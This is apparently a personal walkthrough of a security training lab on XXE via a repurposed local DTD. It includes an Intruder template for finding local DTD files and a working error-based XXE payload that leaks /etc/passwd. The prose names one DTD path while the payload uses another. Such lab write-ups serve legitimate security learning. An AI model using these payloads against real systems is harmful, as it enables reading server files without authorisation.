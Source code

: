 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it. 

**Hint**

*Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.*

# Note

This lab gives the location of a local DTD file, but in a case where this is unknow a list of potential local DTD file locations can be found using the lists from dtd-finder from GoSecure found here: https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt. I am going to complete the lab as if the hint did not exist.

# Step 1 Find XML being parsed 

I find it on the "Check Stock" POST request being sent to /product/stock

![image](https://user-images.githubusercontent.com/83407557/210463592-c6353faf-c1a9-4cf0-8599-d748d3d7e627.png)

# Step 2 Find local DTD file

I want to send this request to intruder with the following XXE to find a local file:

```xml
<!DOCTYPE foo [<!ENTITY % local_dtd SYSTEM "file://PATH-TO-FILE">%local_dtd;]>
```

I set the payload position to PATH-TO-FILE

![image](https://user-images.githubusercontent.com/83407557/210464251-4e44528a-1f78-4722-9a05-f6e7e7037319.png)

For payloads I use the dtd-finder file list:

```bash
└─$ cat dtd-finder/list/dtd_files.txt|xclip -selection clipboard
```

![image](https://user-images.githubusercontent.com/83407557/210464373-e26ce5d4-7a24-445c-b8ac-8e11f23e2370.png)

I also have to make sure the payloads are not being url encoded:

![image](https://user-images.githubusercontent.com/83407557/210464583-7eab929b-fed7-4530-a566-c94c31b18bc5.png)

Launching the attack I find 5 DTD files

![image](https://user-images.githubusercontent.com/83407557/210464680-3160d150-6ed7-412d-9a91-e15e9b2e5ba4.png)

# Step 3 locate and ENTITY within one of the found DTD files

Since I am also running linux, I just check my own local DTD file for entity names:

```bash
└─$ cat /usr/share/yelp/dtd/docbookx.dtd|grep ENTITY          
<!ENTITY % ISOamsa PUBLIC
<!ENTITY % ISOamsb PUBLIC
<!ENTITY % ISOamsc PUBLIC
<!ENTITY % ISOamsn PUBLIC
<!ENTITY % ISOamso PUBLIC
<!ENTITY % ISOamsr PUBLIC
<!ENTITY % ISObox PUBLIC
<!ENTITY % ISOcyr1 PUBLIC
<!ENTITY % ISOcyr2 PUBLIC
<!ENTITY % ISOdia PUBLIC
<!ENTITY % ISOgrk1 PUBLIC
<!ENTITY % ISOgrk2 PUBLIC
<!ENTITY % ISOgrk3 PUBLIC
<!ENTITY % ISOgrk4 PUBLIC
<!ENTITY % ISOlat1 PUBLIC
<!ENTITY % ISOlat2 PUBLIC
<!ENTITY % ISOnum PUBLIC
<!ENTITY % ISOpub PUBLIC
<!ENTITY % ISOtech PUBLIC

```

# Step 4 craft XXE payload

Then picking one of the entities `% ISOamsa` and the file-path `/usr/share/yelp/dtd/docbookx.dtd` I craft an error based XXE payload to grab the /etc/passwd file:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/schema/xml-core/catalog.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Which errors out and leaks the /etc/passwd file:

![image](https://user-images.githubusercontent.com/83407557/210466701-d827e4e3-c5cb-4a85-a4f9-8c24755d1a11.png)

Take note, any of the found ENTITIES would have worked:

![image](https://user-images.githubusercontent.com/83407557/210466811-2990a3f8-2f99-4e40-b32c-2bca16b4878f.png)


With this the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/210466853-bb289426-fb7e-4eb8-acdf-e85a3707f505.png)
